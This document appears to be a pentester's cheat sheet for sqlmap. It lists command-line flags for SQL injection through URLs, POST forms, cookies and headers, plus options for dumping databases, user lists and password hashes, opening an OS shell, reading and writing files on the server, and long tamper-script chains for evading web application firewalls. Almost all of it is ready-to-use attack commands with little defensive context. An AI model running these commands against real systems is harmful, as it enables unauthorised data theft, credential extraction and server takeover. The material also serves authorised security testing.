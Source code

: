 # SQLMAP

% sql injection
#plateform/linux #target/remote #cat/ATTACK/INJECTION  #port/80 #port/443 #port/8080 #port/8443

## usage
```
https://github.com/sqlmapproject/sqlmap/wiki/Usage
```

## cheatsheets
```
https://cybr.com/ethical-hacking-archives/sqlmap-cheat-sheets-to-help-you-find-sql-injections/
```

## flush session files
```
--flush-session     # Flush session files for current target
--fresh-queries     # Ignore query results stored in session file
```

## HTTP protocol authentication
types: 
    Basic
    Digest
    NTLM
```
--auth-type <auth_type|Basic> --auth-cred "<login>:<password>"
--headers="Authorization: Basic <value>"
```

## HTTP protocol private key authentication
cat auth_file.key auth_file.pem > auth_file.txt
```
--auth-file <file>
```

## proxy
```
--proxy="socks5://127.0.0.1:2080"
```

## request file
```
-r <request_file> -p <comma_sep_params>
```

## GET Request Injection
```
-u "<url>?<param>=*" -p <param>
-u <url>
```

## POST Request Injection
```
-u "<url>" --data "username=*&password=*"
```

## POST Request Injection (Parse and test forms on target URL)
```
-u "<url>" --forms
```

## injections in Headers and other HTTP Method
```
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"
```

## technique
```
--technique=BEQSTU
```

## level - risk
```bash
--level=<value|5> --risk=<value|3> 
```

 ## ignore redirect
 ```bash
 --ignore-redirects 
 ```

## Page comparison
```
--string="<string_showed_when_TRUE>"
--not-string="<string_showed_when_FALSE>"
```

## request
```
-sql-query "<query>"
```

## DBMS
MySQL
Oracle
PostgreSQL
Microsoft SQL Server
Microsoft Access
```bash
--dbms="<name>"
```

## Enumeration
```
--dbs
-D <database_name> --tables
-D <database_name> -T <table> --dump
-D <database_name> -T <table> --columns
-D <database_name> -T <table> -C <column> --dump
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges
```


## get shell
```
--os-shell
```

## file read
```
--file-read=<remote_file>
```

## file write
```
sqlmap -u <url> --file-write=<local_file> --file-dest=<remote_path_destination>
```



## get with cookie
```
sqlmap -u <url> --cookie=<cookie>
```

## sqlmap - classic with tamper
```
sqlmap -u '<url>' tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

## sqlmap - hardcore
```
sqlmap -u '<url>' --level=5 --risk=3 -p '<parameter>' --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
```

## sqlmap - mysql tamper list
```
sqlmap -u <url> --dbms=MYSQL tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

## sqlmap - mssql tamper list
```
sqlmap -u <url> --dbms=MSSQL tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```
